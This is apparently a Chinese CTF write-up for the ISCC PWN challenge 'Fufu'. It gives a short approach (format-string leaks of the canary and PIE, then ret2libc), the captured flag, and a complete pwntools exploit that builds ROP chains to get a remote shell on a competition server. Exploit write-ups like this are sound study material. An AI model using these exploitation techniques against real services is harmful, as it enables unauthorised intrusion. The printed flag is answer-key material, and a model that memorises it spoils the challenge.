

# Fufu

WK-[已脱敏]-[email已脱敏]
### **题目类型+题目名称**

PWN—Fufu

### **解题思路（必须包含文字说明+截图）**

格式化字符串泄露pie、canary地址，ret2libc泄露libc基地址，system("/bin/sh\x00")拿到服务器权限getshell



ISCC{832ad2b3-051e-4407-b86f-9f478e02d806}

### **Exp（如有，请粘贴完整代码，不允许截图！）**

```python
from pwn import *

context.log_level = 'debug'
p = remote('101.200.155.151', 12600)

p.recvuntil(b'Furina: Your choice? >> ')
p.sendline(b'1')
p.recvuntil(b'Furina: Time is limited! >> ')
p.sendline(b'2147483648')
p.recvuntil(b'Furina: Present your evidence! >> ')
p.sendline(b"%17$p")
canary = int(p.recv(18).strip(), 16)
print(hex(canary))
p.recvuntil(b'hcy want to eat chicken! >> ')
p.sendline(b'1')

p.recvuntil(b'Furina: Your choice? >> ')
p.sendline(b'1')
p.recvuntil(b'Furina: Time is limited! >> ')
p.sendline(b'2147483648')
p.recvuntil(b'Furina: Present your evidence! >> ')
p.sendline(b"%25$p")
main = int(p.recv(14).strip(), 16) 
pie = main - 0x1338
print(hex(pie)) 
p.recvuntil(b'hcy want to eat chicken! >> ')
p.sendline(b'1')

ret = 0x000000000000101a + pie
pop_rdi = 0x000000000000132f + pie

puts_got = 0x3fa0 + pie
puts_plt = 0x1030 + pie

p.recvuntil(b'Furina: Your choice? >> ')
p.sendline(b'2')
p.recvuntil(b'Furina: The trial is adjourned')
rop = cyclic(0x48) + p64(canary) + p64(0x0) +p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(rop)
leak = p.recv(1)

puts = int.from_bytes(p.recv(6).ljust(8, b'\x00'), 'little')
print(hex(puts))

libc_base = puts - 0x080e50
print(hex(libc_base))
bin_sh = 0x1d8678 + libc_base
system = 0x050d70 + libc_base

p.recvuntil(b'Furina: Your choice? >> ')
p.sendline(b'2')
p.recvuntil(b'Furina: The trial is adjourned')
rop = cyclic(0x48) + p64(canary) + p64(ret)*2 +p64(pop_rdi) + p64(bin_sh) + p64(system)
p.sendline(rop)

p.interactive()

```


